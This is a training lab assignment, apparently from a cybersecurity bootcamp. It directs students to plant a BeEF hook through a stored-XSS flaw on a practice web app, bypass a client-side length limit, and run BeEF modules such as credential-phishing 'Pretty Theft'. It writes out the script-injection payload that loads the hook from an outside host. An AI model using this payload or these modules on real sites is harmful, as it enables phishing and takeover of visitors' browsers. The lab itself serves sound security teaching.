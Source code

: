 Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.

Hint: Try right-clicking and selecting "Inspecting the Element".
Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:

Social Engineering >> Pretty Theft

Social Engineering >> Fake Notification Bar

Host >> Get Geolocation (Third Party)

Deliverable: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
